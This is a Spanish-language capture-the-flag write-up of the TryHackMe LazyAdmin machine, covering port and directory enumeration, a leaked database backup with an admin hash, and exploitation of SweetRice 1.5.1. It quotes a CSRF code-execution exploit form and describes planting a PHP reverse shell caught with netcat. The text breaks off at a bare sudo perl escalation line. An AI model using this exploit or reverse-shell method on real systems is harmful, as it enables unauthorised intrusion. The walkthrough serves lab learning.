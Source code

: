 # Lazy Admin WriteUp
### Español & English



## Enumeración

#### :ship: Nmap - Enumeración de puertos
Para la enumeración de puertos de la máquina utilizaremos nmap, una herramienta que nos permite scanear los puertos abiertos y los servicios que corren en una dirección IP. Comenzaremos con enumerar los primeros 1000 puertos con el siguiente comando:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -n -T4 -p 1-1000 10.10.109.87 -oN portenum

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:21 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con `-n` especificamos que no se realice nunca la resolución de DNS lo que agiliza el proceso de escaneo, con `-T4` especificamos el nivel de agresividad y evitamos que el tiempo de expiración de los sondeos en los puertos TCP no excedan de 10ms. Por útltimo guardamos los resultados en el archivo `portenum` en formato nmap con el argumento `-oN`.


Ahora procedemos con la enumeración de los servicios y sus versiones de cada uno de los puertos abiertos que previamente habiamos encontrado:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -sC -sV -p22,80 10.10.109.87 -oN portdetails

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:38 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

#### :page_with_curl: Wfuzz - Enumeración de directorios

Como podemos observar existe un servicio http por el puerto 80 al que podemos acceder con la URL `http://10.10.109.87:80`en nuestro navegador:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/index.png)

Accedemos a la página de defecto del servidor Apache2.

En este punto comencé a buscar archivos `robots.txt`, `login.php`o directorios como `/uploads` que son bastante counes en los CTFs, pero no obtuve resultados.

Para la enumeración de directorios utilizaremos wfuzz como herramienta de fuzzeo. Las wordlists que empleé fueron dos, con la primera (`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) no obtuve resultados ya sin especificar extensión o con las extensiones `php`y `html`. Con la segunda wordlist (`/usr/share/wfuzz/wordlist/general/common.txt`) si que salieron resultados:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.109.87/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000204:   301        9 L      28 W     314 Ch      "content"                                                                                                                                                                 

Total time: 15.05663
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 63.02869
```

Si fuzzeamos de nuevo este directorio podemos acceder a otros archivos ocultos:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.98.202/content/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/content/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000412:   301        9 L      28 W     321 Ch      "images"                                                                                                                                                                  
000000416:   301        9 L      28 W     318 Ch      "inc"                                                                                                                                                                     
000000454:   301        9 L      28 W     317 Ch      "js"                                                                                                                                                                      

Total time: 21.64260
Processed Requests: 949
Filtered Requests: 946
Requests/sec.: 43.84869
```


Primero revisamos la URL `http://10.10.109.87/content`, donde podemos deducir que se utiliza el gestor de contenido SweetRice:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/sweetrice.png)

Al inspeccionar la página podemos encontrar un link de un archivo escrito en JavaScript (`.js`) debajo del tag de <title>.
Si nos fijamos en la ubicación del archivo podemos encontrarnos con el directorio que previamente habiamos fuzzeado.
  
Revisando el archivo `SweetRice.js` se ve una versión desde el que se utiliza el script (`0.5.4`). Con la idea de encontrar credenciales, con el atajo `Ctrl+F`filtramos la palabra `pass` con la que se obtienen dos resultados, sin embargo no hay ninguna contraseña o usuario.

Si revisas cuidadosamente los demás scripts alojados en `http://10.10.109.87/content/js`puedes sacar también el directorio de `/images`.
Mirando los archivos en `/images`no encontramos nada que nos revele datos que puedan vulnerar la máquina.

Por último, nos faltaría revisar el directorio `/inc` en el que encontremos diferentes carpetas y archivos en formato `.php`:


![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/inc.png)

Si accedemos al archivo de texto con nombre `lastest.txt`podemos listar una versión, que como dice el nombre sería la más reciente de uno de los servicios que corre la página web. El servicio que habíamos encontrado previamente es el CMS SweetRice. Lo cual nos servirá mas adelante para buscar exploits relacionados con esta versión (`1.5.1`).

También podemos encontrar una carpeta con nombre `mysql_backup`, dentro de esa carpeta podemos descargar la copia de seguridad de una base de datos:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/mysql.png)

Con el comando `strings`listamos todos los caracteres imprimibles del archivo:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ strings mysql_bakup_20191129023059-1.5.1.sql 
```

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/creds.png) 

Si buscamos entre los resultados podemos encontrar una línea con el nombre de usuario de la cuenta admin (`manager`) y un hash md5 de la contraseña (`42f749ade7f9e195bf475f37a44cafcb`). El hash lo podemos decodificar [aquí](https://crackstation.net/).

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/hash.png)

## Exploitation

#### :collision:Método - 1


Como ya obtuvimos qué versión de SweetRice se está empleando podemos comprobar si ésta es vulnerable. Una simple búsqueda en Google nos dará varios resultados:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/google.png)

En este método nos centraremos en el tercer enlace, el cual nos detalla el procedimiento a seguir para obtener un Code Execution:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Tal y como lo describe necesitamos tener acceso a una cuenta admin del CMS para luego acceder al panel de ads. Una vez ahí subir el codigo que nos dará una reverse shell sustituyendo `<?php echo '<h1> Hacked </h1>'; phpinfo();?>`por nuestro código. En mi caso utilicé `/usr/share/webshells/php/php-reverse-shell.php` cambiando los parámetros de la IP con mi dirección y el puerto por el 1234.


![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/exploit1.png)


Una vez hayamos subido el archivo ponemos en escucha el puerto `1234` con netcat:



```console
kimera@vault:~/Machines/THM/LazyAdmin/exploit$ nc -nlvp 1234
listening on [any] 1234 ...
```

Y entramos en la URL donde se aloja el archivo que recién subimos: `http://10.10.109.87/content/inc/ads/reverse.php`. Con esto deberíamos haber obtenido una shell.

#### :collision:Método - 2

Para este segundo método utilizaremos el primer enlace de la búsqueda que hicimos previamente. Este nos proprciona un exploit escrito en Python, el cual, cuando lo ejectutemos con el comando `python nombreexploit.py`, nos pedirá el host que en nuestro caso es `10.10.109.87/content`que nos lo pedirá entre comillas, así como el resto de parámetros necesarios: usuario, contraseña, nombre del archivo que queramos subir. En mi caso utilizaré de nuevo una reverse shell en php.

Ponemos en escucha el puerto con el que configuramos la reverse shell y visitamos la URL que nos proporciona el output del exploit.

#### Escalación de provolegios


sudo /usr/bin/perl /home/itguy/backup.pl



